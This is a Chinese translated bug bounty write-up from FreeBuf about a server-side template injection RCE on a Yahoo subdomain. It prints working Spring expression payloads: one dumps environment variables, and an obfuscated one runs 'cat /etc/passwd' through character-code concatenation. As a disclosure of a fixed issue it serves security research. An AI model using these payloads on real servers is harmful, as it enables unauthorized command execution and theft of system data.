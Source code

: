 # 挖洞经验 | 通过SPRING ENGINE SSTI导致的雅虎RCE - FreeBuf网络安全行业门户
***本文中涉及到的相关漏洞已报送厂商并得到修复，本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。** 

**最近在漏洞挖掘过程中发现了一个漏洞，之后提交给了雅虎的bug赏金计划，这篇文章我就来分享下是如何挖掘到此漏洞的。** 

在测试Web应用程序的安全性时，信息收集是查找可能存在漏洞的Web资产的重要组成部分，因为可以发现可能会增加攻击面的子域，目录和其他资产。我首先使用在线工具，如shodan.io，censys.io，crt.sh，[dnsdumpster.com](http://dnsdumpster.com/)，以及github上的脚本，如dirsearch，aquatone，massdns等这些工具进行子域名查找，在使用这些工具后，我发现了子域名 - datax.yahoo.com。这个子域名引起了我的兴趣，因为访问子域名根目录将重定向到[https://datax.yahoo.com/swagger-ui.html](https://datax.yahoo.com/swagger-ui.html) \- 并在页面随后显示403错误。

![](https://image.3001.net/images/20190113/1547367420_5c3af3fccbff7.png!small)
然后我运行dirsearch脚本快速地扫描目录，以此来尝试发现网站隐藏的目录。我不确定具体结果是什么，但我注意到在向网址添加空格字符时，状态代码已从403更改为200，[https://datax.yahoo.com/%20/](https://datax.yahoo.com/%20/)，然后我看到了以下页面。  

![](https://image.3001.net/images/20190113/1547367433_5c3af409a1081.png!small)

发现是swigger，经过查找发现swagger ui的主页上有api文档，并详细列出了所有可用的接口和请求参数。示例：[https://dev.fitbit.com/build/reference/web-api/explore/](https://dev.fitbit.com/build/reference/web-api/explore/)

从这里开始，我作为未经身份验证的用户，想测试一些API接口，以此发现潜在的漏洞。经过几个接口测试后，我遇到了以下接口，它显示了这个white label error页面，其中我输入的参数值却出现在错误响应中：

![](https://image.3001.net/images/20190113/1547367444_5c3af41445b8e.png!small)
注意到输入内容显示在页面中，随后我尝试了一些XSS payload，却无法在客户端成功执行javascript。最后当输入payload为${7*7}时，我惊讶地发现算术表达式已在响应中成功执行计算了。  

![](https://image.3001.net/images/20190113/1547367455_5c3af41f2ffac.png!small)

令我惊讶的原因是因为乘法表达式已执行，以及语法中“$”字符竟然成功执行了表达式。这通常表明在处理表达式时服务器端使用了某种模板引擎。经过一番研究后，我对这台主机可能使用的模板引擎进行了一些猜测。在呈现Yahoo!到目前为止我发现的所有情况之后 ，我收到了雅虎安全团队的确认，使用的模板是Spring Engine Template，他们要求我试着看看我还能做些什么来进一步利用它。由于我只能用这个做基础数学，他们想看看我是否可以从服务器中提取一些数据，以便他们充分评估漏洞影响。最后发现${T(java.lang.System).getenv()} 可用于检索系统的环境变量。  

![](https://image.3001.net/images/20190113/1547367464_5c3af428e99a1.png!small)
然后，我尝试使用.exec方法执行命令“cat etc/passwd”，以使用.exec方法演示能够执行命令从服务器提取数据。payload： ${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}，但是该命令原样输出在响应中，并且未执行。我不确定为什么它不起作用，但后来遇到了另一位研究员的博客文章 - [http://deadpool.sh/2017/RCE-Springs/](http://deadpool.sh/2017/RCE-Springs/)，他在那里使用Java的concat()方法来组合与命令中使用的字符相关联的ASCII值。下面的最终payload用于成功执行命令cat etc/passwd：  

```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

我不想包含能透露此文件内容的截图。但为了演示，我将使用相同的技术显示执行“id”命令的输出：

![](https://image.3001.net/images/20190113/1547367498_5c3af44a9d347.png!small)

到目前为止，对于雅虎的bug赏金流程我有了很好的经验，并会根据他们处理，解决和评估提交的报告的方式向其他研究人员推荐这个bug提交流程。这个问题的总金额在验证问题时为500美元，在解决后几周为7,500美元，总金额为8,000美元。

谢谢你的阅读。

参考来源
----

[https://nvd.nist.gov/vuln/detail/CVE-2016-4977](https://nvd.nist.gov/vuln/detail/CVE-2016-4977)

[http://secalert.net/#cve-2016-4977](http://secalert.net/#cve-2016-4977)

[http://deadpool.sh/2017/RCE-Springs/](http://deadpool.sh/2017/RCE-Springs/)

自定义white label error页面
----------------------

[https://docs.spring.io/spring-boot/docs/current/reference/html/howto-actuator.html](https://docs.spring.io/spring-boot/docs/current/reference/html/howto-actuator.html)

翻译来源
----

[https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)

***本文作者：生如夏花，转载请注明来自FreeBuf.COM**